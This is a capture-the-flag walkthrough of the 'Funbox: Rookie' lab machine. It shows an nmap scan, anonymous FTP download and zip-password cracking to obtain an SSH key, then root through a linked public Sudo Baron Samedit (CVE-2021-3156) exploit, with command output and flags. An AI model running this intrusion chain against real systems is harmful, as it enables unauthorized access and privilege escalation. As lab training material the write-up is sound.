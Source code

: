```yaml
---
title: "Funbox : Rookie"
categories: [Proving Grounds, Play, Funbox]
tags: [FTP, Public Exploit, Unzip, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:512/1*hN7YDho1p8S7uOdLjj-8Mw.png
  alt:  Funbox-Rookie Machine 🖥️
---
```



## **Description ⤵️**

>
💡 [Funbox : Rookie](https://www.vulnhub.com/entry/funbox-rookie,520/)
<br>
Boot2Root ! This can be a real life scenario if rockies becomes admins. Easy going in round about 15 mins. Bit more, if you are find and stuck in the rabbit-hole first.
<br>
This VM is created/tested with Virtualbox. Maybe it works with vmware.
<br>
If you need hints, call me on twitter: @0815R2d2
<br>
Have fun...
<br>
This works better with VirtualBox rather than VMware.
{: .prompt-info }


### Let’s find the IP Address first >>

```bash
IP : 192.168.225.107
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie]
└─$ sudo nmap -sC -sV -T4 -oN Nmap_results.txt 192.168.225.107
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-08 15:37 IST
Nmap scan report for 192.168.225.107
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9:46:7d:fe:0c:4d:a9:7e:2d:77:74:0f:a2:51:72:51 (RSA)
|   256 15:00:46:67:80:9b:40:12:3a:0c:66:07:db:1d:18:47 (ECDSA)
|_  256 75:ba:66:95:bb:0f:16:de:7e:7e:a1:7b:27:3b:b0:58 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/logs/
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled.png)

Lets check `robots.txt` file →

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled%201.png)

## FTP Enumeration ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie]
└─$ ftp 192.168.225.107 21
Connected to 192.168.225.107.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.225.107]
Name (192.168.225.107:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.178 !
230-
230-The local time is: Sat Jul 08 10:10:10 2023
230-
230-This is an experimental FTP server.  If you have any unusual problems,
230-please report them via e-mail to <root@funbox2>.
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||7526|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 .
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 ..
-rw-r--r--   1 ftp      ftp           153 Jul 25  2020 .@admins
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
-r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
-rw-r--r--   1 ftp      ftp           114 Jul 25  2020 .@users
-rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
226 Transfer complete
ftp>
```
{: .nolineno}

Now I downloaded all the files into the attackers machine →

```bash
wget -r ftp://192.168.225.107
```
{: .nolineno}

Now lets dig into the files →

with the help of fcrackzip tool I cracked the zip passwords →

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled%202.png)

```bash
PASSWORD FOUND!!!!: pw == iubire
```
{: .nolineno}

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie/192.168.225.107]
└─$ unzip tom.zip 
Archive:  tom.zip
[tom.zip] id_rsa password: 
  inflating: id_rsa
```
{: .nolineno}

## SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie/192.168.225.107]
└─$ ssh tom@192.168.225.107 -i id_rsa 
The authenticity of host '192.168.225.107 (192.168.225.107)' cant be established.
ED25519 key fingerprint is SHA256:ZBER3N78DusT56jsi/IGcAxcCB2W5CZWUJTbc3K4bZc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.225.107' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul  8 10:45:19 UTC 2023

  System load:  0.0               Processes:             164
  Usage of /:   75.8% of 4.37GB   Users logged in:       0
  Memory usage: 38%               IP address for ens256: 192.168.225.107
  Swap usage:   0%

30 packages can be updated.
0 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$
tom@funbox2:~$ cat local.txt
866bc12b3cc3f88f2bcfb8d091713b46
tom@funbox2:~$
```
{: .nolineno}

Now lets see the Sudo version →

```bash
tom@funbox2:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
tom@funbox2:~$
```
{: .nolineno}

Lets search an exploit for this Sudo version →

I got this exploit of [**CVE-2021-3156 (Sudo Baron Samedit)**](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py) and I used `exploit_nss.py` exploit **→**

```bash
tom@funbox2:/tmp$ nano exp.py
tom@funbox2:/tmp$ chmod +x exp.py
tom@funbox2:/tmp$ python3 exp.py
# whoami
root
# /bin/bash -i
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@funbox2:/tmp# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(tom)
root@funbox2:/tmp# whoami
root
root@funbox2:/tmp# cd /root
root@funbox2:/root# ls -al
total 32
drwx------  4 root root 4096 Jul  9 09:51 .
drwxr-xr-x 24 root root 4096 Oct 14  2020 ..
-rw-------  1 root root    0 Oct 14  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Sep 15  2020 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 25  2020 .ssh
-rw-r--r--  1 root root   32 Oct 14  2020 flag.txt
-rw-------  1 root root   33 Jul  9 09:51 proof.txt
root@funbox2:/root# cat flag.txt 
Your flag is in another file...
root@funbox2:/root# cat proof.txt
7ca58542dc8a0d0181aaf812ae214c69
root@funbox2:/root#
```
{: .nolineno}

Now I am root !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }